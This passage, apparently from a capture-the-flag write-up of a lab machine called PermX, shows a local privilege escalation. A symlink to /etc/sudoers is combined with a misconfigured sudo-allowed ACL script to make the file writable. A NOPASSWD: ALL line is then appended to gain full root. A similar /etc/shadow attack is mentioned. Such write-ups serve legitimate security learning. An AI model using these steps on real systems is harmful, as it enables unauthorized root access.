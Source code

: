 There’s a very similar attack to abuse `/etc/shadow`.

#### sudoers

The `/etc/sudoers` file controls who can run what with sudoers. By default, only root can read it:

```

mtz@permx:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
mtz@permx:~$ ls -l /etc/sudoers
-r--r----- 1 root root 1711 Jul  7 17:30 /etc/sudoers

```

I’ll give mtz permission:

```

mtz@permx:~$ ln -s /etc/sudoers
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/sudoers

```

There’s a lot of comments, but cleaned up:

```

mtz@permx:~$ cat /home/mtz/sudoers | grep -v "^#" | grep .
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root    ALL=(ALL:ALL) ALL
%admin ALL=(ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh

```

I’ll add this line to the end:

```

mtz ALL=(ALL) NOPASSWD: ALL

```

Now I can run any command as any user:

```

mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
    (ALL) NOPASSWD: ALL

```
